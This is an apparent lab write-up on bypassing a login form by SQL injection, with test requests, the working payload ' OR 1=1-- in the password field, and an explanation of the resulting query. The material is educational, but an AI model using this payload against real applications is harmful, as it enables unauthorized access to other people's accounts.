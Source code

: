 # SQL injection vulnerability allowing login bypass

### Goal:
`Log in to the application as the administrator user.`
### Info: The injection point is the login functionality
`target.com/login?username=<user>&password=<password>`
<br><br>

**<ins>Step 1: Test the injection point</ins>**

username=administrator&password='

    500: internal server error

username=administrator&password='--

    200

This is a valid injection point

**<ins>Step 2: Exploit the vulnerability</ins>**

username=administrator&password=' OR 1=1--

    Success!

This request sends the server this query:

    password = '' OR 1=1
    password = false OR true

This evaluates to true and logs us in as the specified user.
